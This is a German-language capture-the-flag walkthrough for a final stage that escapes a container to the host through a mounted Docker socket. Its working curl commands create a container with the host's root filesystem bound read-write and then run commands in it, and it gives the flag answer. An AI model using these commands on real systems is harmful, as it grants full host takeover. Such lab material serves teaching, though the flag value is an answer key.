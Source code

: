 # Stage 6: Container Escape & Host-Flag

## Ziel
Nutze eine im Compose freigeschaltete Lücke, um auf den Host zu entkommen und die letzte Flag zu lesen.

## Setup-Hinweis
Der Backend-Container hat den Docker Socket gemountet dadurch ist ein Missbrauch möglich:

```yaml
services:
  backend:
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```
## Schritt-für-Schritt
Im Backend Container erstellst du einen neuen Container mit dem gesamten Host Daten:
```shell
curl --silent --unix-socket /var/run/docker.sock   -H "Content-Type: application/json"   -d '{
        "Image":      "alpine:latest",
        "Cmd":        ["sh","-c","sleep 1d"],
        "HostConfig": {"Binds":["/:/host:rw"]}
      }'   -X POST http://localhost/containers/create?name=ctf-escape \
    &&  \
curl --silent --unix-socket /var/run/docker.sock \
     -X POST http://localhost/containers/ctf-escape/start
   ```
Man kann dann das System untersuchen. Die Flag befindet sich im Root Verzeichnis des Hosts diese kann man so abrufen:
```shell
# 1) EXEC_ID holen (hier ["cat","/host/root/flag.txt"] für die Flag durch beliebige Befehel ersetzt werden)
EXEC_ID=$(curl -s --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["cat", "/host/root/flag.txt"]}' \
  -X POST http://localhost/containers/ctf-escape/exec \
  | sed -nr 's/.*"Id":"([^"]+)".*/\1/p')

# 2) den Exec-Call starten und den Output direkt ausgeben
curl --no-buffer --silent --unix-socket /var/run/docker.sock \
  -H "Connection: Upgrade" \
  -H "Upgrade: tcp" \
  -H "Content-Type: application/json" \
  -d '{"Detach":false,"Tty":true}' \
  -X POST http://localhost/exec/$EXEC_ID/start
```
Die finale Flag auf dem Host lautet:
`FLAG{root_flag_retrieved}`

Herzlichen Glückwunsch – du hast alle Stages gemeistert und die Challenge erfolgreich abgeschlossen!

